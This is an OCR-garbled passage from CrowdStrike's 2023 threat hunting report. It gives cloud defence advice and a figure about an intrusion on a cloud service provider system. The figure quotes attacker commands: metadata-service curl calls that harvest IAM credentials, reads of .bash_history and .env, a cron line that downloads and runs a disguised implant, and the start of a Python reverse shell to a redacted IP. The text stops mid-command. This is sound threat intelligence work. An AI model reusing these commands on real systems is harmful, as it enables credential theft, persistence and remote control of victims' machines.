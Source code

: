 Consider adopting cloud workload protection (CWP) solutions that offer continuous 
vulnerability management in addition to endpoint detection and response (EDR) 
and other runtime protections at both the cloud virtual machine and container levels.
Secure from start to finish.
Cloud resource configurations should be standardized and validated prior to 
deployment, and thereafter constantly monitored for deviations from approved 
standards. Cloud security posture management (CSPM) solutions can help 
monitor multiple cloud service providers, identify misconfigurations pre\- and post\-
deployment, and significantly reduce risk. Secure configurations prevent access to 
sensitive resources by unauthorized entities, reducing the likelihood of success of 
follow\-on tactics such as privilege escalation, lateral movement and data collection.
37
 2023 CrowdStrike, Inc. All rights reserved. 
NOWHERE TO HIDE
CROWDSTRIKE 2023 THREAT HUNTING REPORT
 2023 CrowdStrike, Inc. All rights reserved. 
Figure 11\. Highlights from an intrusion against a cloud service provider system
37
Initial Access
The adversary exploited an RCE vulnerability 
that existed in a custom PHP application 
running on multiple Linux servers hosted in the 
victim organization's Cloud Service Provider 
environment.
Credential Access
The adversary attempted to harvest Cloud Service 
Provider credentials via the AWS Instance Metadata 
Services API.
curl \-k http:169\.254\.169\[.]254latest
meta\-dataiamsecurity\-credentials
curl \-k http:169\.254\.169\[.]254latest
meta\-dataiamsecurity\-credentials
\[REDACTED IAMRole]
Discovery
Various discovery commands were executed, 
including attempts to view potentially sensitive 
information.
cat . bash\_history, cat .env
Cloud\-conscious discovery included querying the 
AWS Instance Metadata Service API to enumerate 
IAM roles.
curl \-k http:169\.254\.169\[.]254latest
meta\-dataiamsecurity\-credentials
\[REDACTED IAMRole]
Persistence
A cron job was created to download and run the Silver 
implant upon reboot. Silver is an open\-source cross\-platform 
adversary emulationred team framework.
varspoolcroncrontabsroot:4:@reboot curl 
hxxp: \[REDACTED IPAddress]:8443\.tmpfs.cache 
\-odevshmtmpfs.cache; chmod \+xdevshm.
tmpfs.cache;bash \-c "exec \-a '\[kthread4:3\-
bus]' devshm.tmpfs.cahce" \& disown
curl hxxp:\[REDACTED ExternalIPAddress]
\[REDACTED FileName] \-o devshm\[REDACTED 
Filename] \-a chmod \+x devshm\[REDACTED 
Filename] bash \-c "exec \-a '\[kworker4:3\-
events] devshm\[REDACTED FileName]"
Command and Control
The adversary leveraged SSM Orchestration in an 
attempt to execute multiple Python reverse shells.
python3 \-c import os,pty,socket; s\=socket.
socket(); s.connect (("\[REDACTED 
IPAddress]", \[REDACTED PORT])); \[os.